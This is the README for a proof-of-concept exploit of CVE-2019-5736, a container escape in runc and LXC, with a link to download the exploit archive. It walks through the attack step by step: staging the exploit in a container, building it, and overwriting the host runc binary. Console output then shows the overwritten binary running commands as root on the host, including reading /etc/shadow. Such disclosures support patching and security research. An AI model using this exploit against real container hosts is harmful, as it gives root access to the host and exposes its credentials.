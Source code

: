 ## CVE-2019-5736 ##

This is exploit code for CVE-2019-5736 (and it works for both runc and LXC).
The simplest way to use it is to copy the exploit code into an existing
container, and run `make.sh`. However, you could just as easily create a bad
image and run that.

```console
% docker run --rm --name pwnme -dit ubuntu:18.10 bash
pwnme
% docker cp CVE-2019-5736.tar pwnme:/CVE-2019-5736.tar
```

We need to install `gcc` to build the exploit, and `runc` because we need to
have the shared libraries that `runc` would use. We don't actually use the
`runc` binary itself. For LXC, you would install `lxc` instead of `runc`.

```console
% docker attach pwnme
# apt-get update && apt-get install -y gcc runc
[ snip ]
# tar xf CVE-2019-5736.tar
# ./CVE-2019-5736/make.sh
```

And now, `/bin/bash` in the container will be able to **overwrite the host runc
binary**. Since this binary is often executed by `root`, this allows for
root-level code execution on the host.

```
% docker exec -it pwnme /bin/bash
[+] bad_libseccomp.so booted.
[+] opened ro /proc/self/exe <3>.
[+] constructed fdpath </proc/self/fd/3>
[+] bad_init is ready -- see </tmp/bad_init_log> for logs.
[*] dying to allow /proc/self/exe to be unused...
% cat /usr/sbin/docker-runc
#!/bin/bash
touch /w00t_w00t ; cat /etc/shadow
```

And now if you try to use Docker normally, the malicious script will execute
with root privileges:

```
% docker exec -it pwnme /bin/good_bash
OCI runtime state failed: invalid character 'b' looking for beginning of value: unknown
% file /w00t_w00t
/w00t_w00t: empty
```

And obviously `make.sh` can be modified to make the evil path anything you
like. If you want to get access to the container, use `/bin/good_bash`.

### License ###

```
Copyright (C) 2019 Aleksa Sarai <cyphar@cyphar.com>
Vulnerability discovered by Adam Iwaniuk and Borys Popławski.

Permission is hereby granted, free of charge, to any person obtaining a copy
of this software and associated documentation files (the "Software"), to
deal in the Software without restriction, including without limitation the
rights to use, copy, modify, merge, publish, distribute, sublicense, and/or
sell copies of the Software, and to permit persons to whom the Software is
furnished to do so, subject to the following conditions:

* The above copyright notice and this permission notice shall be included in
  all copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE
AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER
LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING
FROM, OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS
IN THE SOFTWARE.
```


Download: https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/46369.zip
